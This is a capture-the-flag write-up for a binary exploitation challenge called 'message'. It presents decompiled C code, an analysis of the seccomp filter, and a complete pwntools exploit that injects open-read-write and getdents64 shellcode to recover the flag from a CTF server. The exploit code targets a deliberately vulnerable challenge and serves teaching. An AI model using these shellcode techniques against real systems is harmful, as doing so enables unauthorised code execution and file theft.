




## message

```
Author: gawrgare

What do you want to say to me?

nc ctf.tcp1p.com 8008
```
**Attachment**: [chall](release/chall)

We were given an ELF binary. Here's some information about this binary.
  


Let's take a look what does this program do
<details close><summary>Decompiled Binary</summary>
    
```c
int setup()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}

__int64 seccomp_setup()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(0LL);
  seccomp_rule_add(v1, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 0LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 1LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 217LL, 0LL);
  return seccomp_load(v1);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+0h] [rbp-10h]
  void *dest; // [rsp+8h] [rbp-8h]

  buf = malloc(0x150uLL);
  dest = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  setup();
  seccomp_setup();
  if ( dest != (void *)-1LL && buf )
  {
    puts("Anything you want to tell me? ");
    read(0, buf, 0x150uLL);
    memcpy(dest, buf, 0x1000uLL);
    ((void (*)(void))dest)();
    free(buf);
    munmap(dest, 0x1000uLL);
    return 0;
  }
  else
  {
    perror("Allocation failed");
    return 1;
  }
}
```
    
</details>

Based by the decompiled program, first the program will set the buffer of stdin, stdout and stderr to non buffer. Then it will call the `seccomp_setup()` function that apply a seccomp rules. To understand what does the seccomp do, we can use [seccomp-tools](https://github.com/david942j/seccomp-tools) to assist us to understand the seccomp rules that being applied. Here's the output of seccomp-tools.
  

Now it's clear, the seccomp only allow 4 syscalls (read, write, open, getdents64). After applying the seccomp, the program will read the user input and save it into a heap. Then it will copy the user input into a rwx memory area that allocated by mmap. Then it will run the user input at the rwx address.

We can exploit it to read the flag by creating a ORW shellcode to read the file. But, since we don't know the name of the flag file in the server, we need to create a shellcode to read the contents of the directory first, by using the getdents syscall (getdents64 in this case). Here is an example payload to read the files in the current directory using getdents64.

```python
p = b""
p += asm(f"""
    {shellcraft.open(".")}
    {shellcraft.getdents64("rax", "rsp", 0x300)}
    {shellcraft.write(1, "rsp", 0x300)}
    """)
```

  

After that, we just need to read the file `flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt` using the ORW (Open Read Write) shellcode to obtain the flag.

Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/chall"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 8008
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *main+0xc1
            c
            si
            """
            gdb.attach(io, gdbscript=cmd)
    
    RIP_OFFSET = cyclic_find(0x61)
    p = b""
    # p += asm(f"""
    #     {shellcraft.open(".")}
    #     {shellcraft.getdents64("rax", "rsp", 0x300)}
    #     {shellcraft.write(1, "rsp", 0x300)}
    #     """)
    # # flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt
    p += asm(f"""
        {shellcraft.open("flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt")}
        {shellcraft.read("rax", "rsp", 0x300)}
        {shellcraft.write(1, "rsp", 0x300)}
        """)
    
    io.sendafter(b"? \n", p)
    print(io.recv())
    print(io.recv())

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)   
``` 
</details>

  

**Flag:** TCP1P{I_pr3fer_to_SAY_ORGW_rather_th4n_OGRW_d0nt_y0u_th1nk_so??}